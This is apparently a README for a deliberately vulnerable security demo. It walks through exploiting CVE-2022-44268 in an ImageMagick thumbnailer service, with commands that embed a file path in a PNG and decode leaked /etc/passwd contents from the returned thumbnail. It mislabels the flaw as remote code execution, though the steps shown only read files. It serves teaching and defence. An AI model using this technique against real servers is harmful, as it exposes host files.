

# Exploiting the thumbnailer service

The thumbnailer service is a simple service that takes a user profile picture and creates a thumbnail of it. It is used by the todolist application to reduce the storage needs of the user profile pictures.

The service is comprised of a simple flask application built into a container image which leverages the ImageMagick `convert` command to perform the image manipulation.

As-is, the base image used for the thumbnailer service is vulnerable to the [CVE-2022-44268](https://security.snyk.io/vuln/SNYK-UBUNTU1604-IMAGEMAGICK-3315916) vulnerability which allows for remote code execution. This vulnerability is exploitable via the `convert` command used by the thumbnailer service and can be used to expose files from the host system.

Thumbnailer service sequence diagram as used with the parent todolist application:


## Steps to demonstrate the exploit (using docker-compose)

1. Start the todolist application with the thumbnailer service (run this from the todolist-goof directory)
    ```bash
    docker-compose up --build # or "docker compose" (no hyphen) on newer Docker Desktop installs 
    ```
1. Select a .png file (or use the k8s.png or goodboi.png file in this directory) to use as your profile picture
1. In another shell, use the `exploit.py` script `encode` command to embed the exploit payload into the image file, giving the path of a file you want to read from the thumbnailer container filesystem
    ```bash
    # Example: encode /etc/passwd into k8s.png
    $ ./exploit.py encode k8s.png /etc/passwd
    Encoding /etc/passwd into k8s.png as encoded-k8s.png ...
    File encoded as encoded-k8s.png
    ```
1. Upload the encoded image file as your profile picture
1. Download the resulting profile thumbnail image
1. Use the `exloit.py` script's `decode` command to read the exfiltrated file contents from the downloaded image
    ```bash
    # Example: decode the exfiltrated file from the downloaded image
    $ ./exploit.py decode downloaded-image.png
    Decoding content from downloaded-image.png...
    
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...
    ```
## Clean up
1. Press `ctrl-c` in the shell running the docker-compose command
2. Optionally, also run `docker-compose rm` to remove the containers
3. Optionally, also run `docker rmi javagoof:latest and thumbnailer:latest` to remove the images used for this demo

## More details
For more on this exploit see the original report [article](https://www.metabaseq.com/imagemagick-zero-days/) by the folks at Metabase Q 
and also this [proof of concept](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) on GitHub.
